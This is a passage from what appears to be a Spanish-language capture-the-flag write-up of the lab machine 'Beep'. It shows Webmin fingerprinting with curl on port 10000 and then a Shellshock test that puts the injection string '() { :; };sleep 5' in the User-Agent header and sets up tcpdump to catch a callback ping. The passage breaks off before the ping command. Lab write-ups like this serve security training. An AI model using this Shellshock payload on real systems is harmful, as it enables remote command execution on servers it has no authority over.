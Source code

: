 ```shell
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    link/ether 00:50:56:b9:1d:bb brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.7/24 brd 10.10.10.255 scope global eth0
[root@beep ~]#
```

## Webmin - TCP 10000

Webmin está alojado en el puerto TCP 10000 con SSL:

```shell
❯ curl -Isk "http://10.10.10.7:10000/"
HTTP/1.0 200 Bad Request
Server: MiniServ/1.570
Date: Wed, 22 Dec 2021 23:33:57 GMT
Content-type: text/html; Charset=iso-8859-1
Connection: close

❯ curl -Isk "https://10.10.10.7:10000/"
HTTP/1.0 200 Document follows
Date: Wed, 22 Dec 2021 23:34:04 GMT
Server: MiniServ/1.570
Connection: close
Set-Cookie: testing=1; path=/; secure
pragma: no-cache
Expires: Thu, 1 Jan 1970 00:00:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Cache-Control: post-check=0, pre-check=0
Content-type: text/html; Charset=iso-8859-1
```

Webmin es una interfaz web para gestionar sistemas Unix.

## Shellshock [Path #3]

Cada vez que hay CGI o un Script en una aplicación web, es bueno intentar probar ShellShock. Para probarlo, abriré burpsuite y enviaré la petición de inicio de sesión a Repeater y reemplazaré la cabecera User-Agent con la cadena del exploit Shellshock ``() { :; };[cmd]``, comenzando con un sleep de 5 segundos:

```http
User-Agent: () { :; };sleep 5
```

Si recibimos una respuesta en 5 segundos entonces funciona y eso confirmará que es vulnerable a shellshock. Vamos a intentar hacer un ping a nosotros mismos.

Configurar un oyente/listener en ICMP:

```shell
sudo tcpdump -ni tun0 icmp
```

Crea una única petición de ping con `-c 1`:

